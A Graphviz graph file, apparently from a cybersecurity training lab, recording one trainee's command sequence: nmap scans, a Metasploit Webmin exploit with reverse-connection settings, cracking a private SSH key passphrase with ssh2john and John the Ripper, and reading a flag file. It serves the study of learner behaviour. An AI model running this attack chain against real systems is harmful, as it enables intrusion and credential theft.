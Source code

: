 // creating graph for user: 84
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 V0 "]
	2 [label="ls A10 "]
	3 [label="metasploit U"]
	4 [label="msf-console U"]
	5 [label="sudo service postgresql start U"]
	6 [label="sudo msfdb init U"]
	7 [label="msfconsole M2 "]
	8 [label="search webmin M3 "]
	9 [label="use  A4 "]
	10 [label="use 2 A4 "]
	11 [label="check A7 "]
	12 [label="show options M5 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="set RPORT 10000 M6 "]
	15 [label="check A7 "]
	16 [label="search webmin V3 "]
	17 [label="use ~ A4 "]
	18 [label="use 3 A4 "]
	19 [label="search webmin V3 "]
	20 [label="use 3 A4 "]
	21 [label="show options V5 "]
	22 [label="set SRVHOST 172.18.1.5 A6 "]
	23 [label="check A7 "]
	24 [label="set SRVHOST 0.0.0.0 A6 "]
	25 [label="set RHOST 172.18.1.5 A6 "]
	26 [label="check A7 "]
	27 [label="exploit M8 "]
	28 [label="set LHOST 147.251.83.13 V6 "]
	29 [label="exploit V8 "]
	30 [label="set LPORT 12345 A6 "]
	31 [label="exploit V8 "]
	32 [label="set LHOST 100.100.100.2 V6 "]
	33 [label="exploit V8 "]
	34 [label="set LPORT  A6 "]
	35 [label="set LPORT 4444 A6 "]
	36 [label="exploit V8 "]
	37 [label="set LHOST 10.1.135.83 V6 "]
	38 [label="nmap 10.1.17.4 A0 A1 "]
	39 [label="ssh 10.1.17.4 A16 "]
	40 [label="ssh eve@10.1.17.4 M16 "]
	41 [label="cd .ssh A16 "]
	42 [label="ls A10 "]
	43 [label="nano id_rsa U"]
	44 [label="ssh-add id_rsaaaa A16 "]
	45 [label="ssh_add id_rsa A16 "]
	46 [label="ssh-add id_rsaa A16 "]
	47 [label="ssh-add id_rsa A16 "]
	48 [label="chmod #033[2~ id_rsa A15 "]
	49 [label="exploit V8 "]
	50 [label="chmod 600 id_rsa M15 "]
	51 [label="ssh-add id_rsa A16 "]
	52 [label="ssh-add id_rsa A16 "]
	53 [label="ssh eve@10.1.17.4 V16 "]
	54 [label="ls A10 "]
	55 [label="mv id_rsa ../id_rsa U"]
	56 [label="cd .. U"]
	57 [label="ll U"]
	58 [label="ls A10 "]
	59 [label="./ssh2john.py A14 A16 "]
	60 [label="./ssh2john.py id_rsa A14 A16 "]
	61 [label="./ssh2john.py id_rsa > hash A14 A16 "]
	62 [label="ls A10 "]
	63 [label="joh hash --show A5 "]
	64 [label="john hash --show A5 A14 "]
	65 [label="john hash --show A5 A14 "]
	66 [label="john hash --show A5 A14 "]
	67 [label="john hash A14 "]
	68 [label="gunzip /usr/share/wordlists/rockyou.txt.gz U"]
	69 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	70 [label="ssh eve@10.1.17.4 V16 "]
	71 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash > result V14 "]
	72 [label="cat result A1 A9 A11 A12 A17 "]
	73 [label="ssh eve@10.1.17.4 V16 "]
	74 [label="ssh eve@10.1.17.4 V16 "]
	75 [label="mv id_rsa .ssh/id_rsa A16 "]
	76 [label="ssh eve@10.1.17.4 V16 "]
	77 [label="ssh eve@10.1.17.4 V16 "]
	78 [label="ls A10 "]
	79 [label="cat top-secret A1 A9 A11 A12 A17 "]
	80 [label="cd top-secret U"]
	81 [label="ls -la A10 "]
	82 [label="cat flag.txt M17 "]
	83 [label="ls A10 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	rankdir=LR
}
